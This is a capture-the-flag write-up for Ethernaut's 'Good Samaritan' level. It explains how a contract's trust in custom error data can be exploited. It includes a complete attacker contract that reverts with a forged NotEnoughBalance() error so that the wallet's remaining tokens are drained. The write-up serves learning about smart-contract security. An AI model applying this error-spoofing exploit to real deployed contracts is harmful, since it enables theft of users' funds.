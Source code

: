# Level 27 - Good Samaritan

- This challenge is about manipulating error return values.
- [Documentation about Custom Errors.](https://soliditylang.org/blog/2021/04/21/custom-errors/) It says that when a revert CustomError() is executed, it reverts with the signature of error. For example→ `revert Unauthorized();` returns error signature `0x82b42900`. If error returns from an external call, it is not trustable.
    
    > Please be careful when using error data since its origin is not tracked. The error data by default bubbles up through the chain of external calls, which means that a contract may forward an error not defined in any of the contracts it calls directly. Furthermore, any contract can fake any error by returning data that matches an error signature, even if the error is not defined anywhere.
    > 
- In our example, Wallet has millions of token and it only donates 10 tokens at once. It is not possible to pay its gas.
- There is also another function transferRemainder, which transfers all the tokens wallet hold, but it is protected with onlyOwner.
    - This function is called from requestDonation method of main contract (owner). But it is called only in `NotEnoughBalance()` error case.
    
    ```solidity
    function requestDonation() external returns (bool enoughBalance) {
            // donate 10 coins to requester
            try wallet.donate10(msg.sender) {
                return true;
            } catch (bytes memory err) {
                if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                    // send the coins left
                    wallet.transferRemainder(msg.sender);
                    return false;
                }
            }
        }
    ```
    
- We should also know about [try catch statements](https://docs.soliditylang.org/en/latest/control-structures.html#try-catch).
    
    > Solidity also supports exception handling in the form of `try`/`catch`-statements, but only for [external function calls](https://docs.soliditylang.org/en/latest/control-structures.html#external-function-calls) and contract creation calls. Errors can be created using the [revert statement](https://docs.soliditylang.org/en/latest/control-structures.html#revert-statement).
    > 
    - In an external call, if execution reverts, reverts back until try catch statement with a returned data. In our example, if `donate10(msg.sender)` fails for some reason, it will continue in catch block.
    - In this example, it is assumed that it reverts if balance is smaller than 10 and if error message/data/signature is equals to `NotEnoughBalance()`, it will send remainder amount.
- If we can force donate10 to revert with correct error message, we can drain all of the tokens.
    - In order to do that, we have to send donation request from a contract and revert somehow. We can’t use receive since it is not native token transfer. Instead there is a method named notify and it calls notify method if msg.sender is a contract.
    - We can implement notify and revert.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface GoodSamaritan {
    function requestDonation() external;
}

contract SamaritanAttacker {
    GoodSamaritan samaritan;
    error NotEnoughBalance();

    constructor(address _goodSameritan) {
        samaritan = GoodSamaritan(_goodSameritan);
    }

    function attack() public {
        samaritan.requestDonation();
    }

    function notify(uint256 amount) external {
        if(amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```
